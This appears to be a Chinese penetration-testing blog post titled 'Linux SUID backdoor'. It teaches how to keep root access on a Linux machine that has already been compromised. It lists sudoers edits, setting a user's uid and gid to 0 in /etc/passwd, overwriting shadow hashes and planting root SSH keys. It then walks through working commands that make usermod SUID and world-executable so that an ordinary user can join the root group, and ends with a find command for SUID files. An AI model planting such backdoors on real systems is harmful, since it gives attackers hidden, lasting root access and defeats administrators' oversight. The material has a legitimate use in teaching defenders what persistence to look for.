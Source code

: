 ```yaml
---
draft: false
date: 2016-04-18 20:03:07
title: Linux 之 SUID 后门
description: 
categories:
  - Pentest
tags:
  - backdoor
---
```


SUID可以用来做后门，前提是你已经获取了root权限，且给予s权限的文件必须为二进制

### 0x00 为二进制文件添加s权限从而提升为root权限
* 写sudoers添加用户  `//最佳方案`  
* vim /etc/passwd    `//将uid和gid改为0`
* vim /etc/shadow    `//密文覆盖`  
* vim root .ssh/证书文件   `.ssh这个文件夹和证书的权限要正确，要和原来一致`

### 0x01 SUID主要作用可以是留后门
* 在root权限下给usermod一个s权限
```bash
# which usermod   #得到usermod的路径                             
/usr/sbin/usermod
# chmod u+s /usr/sbin/usermod
# ls -l /usr/sbin/usermod
-rwsr-x---. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* usermod给其他人一个x权限
```bash
[root@localhost ~]# chmod o+x /usr/sbin/usermod
[root@localhost ~]# ls -l /usr/sbin/usermod
-rwsr-x--x. 1 root root 98680 Dec  7  2011 /usr/sbin/usermod
```

* 切换到普通用户wyb
```bash
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=500(wyb) groups=500(wyb)
[wyb@localhost ~]$ usermod -g root wyb
[wyb@localhost ~]$ id wyb
uid=500(wyb) gid=0(root) groups=0(root)
[wyb@localhost ~]$ exit
```

* 验证
```bash
重新用wyb连接，此时即为root权限
[wyb@localhost ~]$ cd /root  #若能切换到此目录即证明确实获得了root权限
[wyb@localhost root]$ ls
anaconda-ks.cfg  install.log  install.log.syslog
```

### 0x02 查找拥有s权限的文件
* find / -perm -u=s -type f 2>/dev/null
